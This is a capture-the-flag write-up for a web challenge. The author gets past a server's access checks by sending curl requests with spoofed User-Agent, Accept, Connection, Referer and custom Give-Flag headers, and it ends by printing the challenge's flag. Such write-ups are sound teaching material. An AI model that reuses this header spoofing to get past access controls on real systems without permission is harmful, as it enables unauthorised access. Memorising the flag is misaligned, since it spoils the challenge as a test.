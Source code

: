>To get the flag, you must be a member of the secret group! Author: NoobMaster
>
[>http://challs.n00bzunit3d.xyz:31401/](http://challs.n00bzunit3d.xyz:31401/)
----------------
Visiting the url, we see the following in plain text:
```
Not an agent of the **n00bz-4dm1n** secure browser!
```
My first thought is that it is asking for a change to the http header User-Agent. Doing so using curl:
```sh
curl -H "User-Agent: n00bz-4dm1n" http://challs.n00bzunit3d.xyz:31401/                                                   
<p>Does not Accept <b>fl4g</b></p>
```
It looks to be another edit to http headers:
```sh
curl -H "User-Agent: n00bz-4dm1n" -H "Accept: fl4g" http://challs.n00bzunit3d.xyz:31401/
<p>Connection not <b>s3cur3</b></p>
```
Again keeping with the trend, I add another header line for connection:
```sh
curl -H "User-Agent: n00bz-4dm1n" -H "Accept: fl4g" -H "Connection: s3cur3" http://challs.n00bzunit3d.xyz:31401/
<p>Not refered by <b>s3cr3t.n00bz-4dm1n.xyz</b></p>
```
Time to add referer tag:
```sh
curl -H "User-Agent: n00bz-4dm1n" -H "Accept: fl4g" -H "Connection: s3cur3" -H "Referer: s3cr3t.n00bz-4dm1n.xyz" http://challs.n00bzunit3d.xyz:31401/ 
<b>Give-Flag</b> is not <b>7ru3</b>
```
Give-Flag is not really a common http header, but based on what has been going on, it's the first thing we should try.
```sh
$ curl -H "User-Agent: n00bz-4dm1n" -H "Accept: fl4g" -H "Connection: s3cur3" -H "Referer: s3cr3t.n00bz-4dm1n.xyz" -H "Give-Flag: 7ru3" http://challs.n00bzunit3d.xyz:31401/
n00bz{y0u_4r3_n0w_4_v4l1d_m3mb3r_0f_th3_s3cr3t_gr0up!}
```
Finally we get the flag.
`n00bz{y0u_4r3_n0w_4_v4l1d_m3mb3r_0f_th3_s3cr3t_gr0up!}`